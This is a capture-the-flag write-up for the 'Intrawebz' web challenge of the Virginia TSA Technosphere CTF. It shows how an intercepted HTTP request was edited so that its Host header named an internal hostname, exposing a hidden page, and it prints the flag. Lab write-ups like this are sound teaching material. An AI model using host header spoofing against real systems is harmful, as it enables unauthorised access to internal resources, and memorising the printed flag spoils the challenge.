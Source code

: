 # Intrawebz (100)
#### web - [Virginia TSA Technosphere CTF](../main.md)

## Challenge description:
> You've seen the interwebz. Now get ready for the INTRAwebz
> 
> [https://vatsa-intrawebz.chals.io/](https://vatsa-intrawebz.chals.io/)

## Solution
Going to the website, we are told to access it from the "internal network" `flag.corp.internal`.

Intercepting the request through Burp Suite to the page returns:
```
GET / HTTP/1.1
Host: vatsa-intrawebz.chals.io
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
If we change `Host: vatsa-intrawebz.chals.io` to `Host: flag.corp.internal` and forward the request, a blank page is returned. If we request the source with `Ctrl-U` and change the host again in the new request, the flag is revealed.
```html

<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-UA-Compatible" content="ie=edge">
  <link href="https://cdn.jsdelivr.net/npm/bootstrap@4.6.1/dist/css/bootstrap.min.css" rel="stylesheet">
  <title>flag.corp.internal</title>
</head>
<body class="bg-dark">
  <div class="container mt-4 text-center">
    <pre class="h1 text-dark font-weight-bolder">************************</pre>
  </div>
</body>
</html>
```
<details> 
    <summary>Flag</summary>
flag{H05tn4M3_P0llU710n}
</details>